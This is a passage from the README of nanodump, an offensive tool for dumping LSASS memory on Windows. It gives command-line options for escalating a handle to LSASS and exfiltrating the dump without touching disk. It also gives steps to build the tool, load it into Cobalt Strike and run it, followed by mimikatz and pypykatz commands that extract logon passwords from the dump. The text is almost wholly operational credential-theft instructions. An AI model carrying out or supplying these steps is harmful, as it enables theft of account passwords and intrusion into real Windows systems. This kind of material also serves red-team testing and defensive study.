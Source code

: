 ```
    --elevate-handle, -eh
            open a handle to LSASS with low privileges and duplicate it to gain higher privileges
Miscellaneous:
    --getpid
            print the PID of LSASS and leave
    --chunk-size
            chunk size in KiB used to exfiltrate the dump without touching disk (default 900)
Help:
    --help, -h
            print this help message and leave

```

<h3>Clone</h3>

```bash
git clone https://github.com/fortra/nanodump.git
```

<h3>Compile (optional)</h3>

<b>On Linux with MinGW</b>

```bash
make -f Makefile.mingw
```

<b>On Windows with MSVC</b> (No BOF support)

```bash
nmake -f Makefile.msvc
```

<h3>Import (CobaltStrike only)</h3>

Import the `NanoDump.cna` script on Cobalt Strike.

<h3>Run</h3>

Run the `nanodump` command in the Beacon console or the `nanodump.x64.exe` binary.

<h3>Restore the signature</h3>

If you didn't specify the `--valid` flag, you need to restore the invalid signature
```zsh
scripts/restore_signature <dumpfile>
```

<h3>Get the secretz</h3>

<b>mimikatz:</b>  
To get the secrets simply run:
```sh
mimikatz.exe "sekurlsa::minidump <dumpfile>" "sekurlsa::logonPasswords full" exit
```

<b>pypykatz:</b>  
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz):  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```
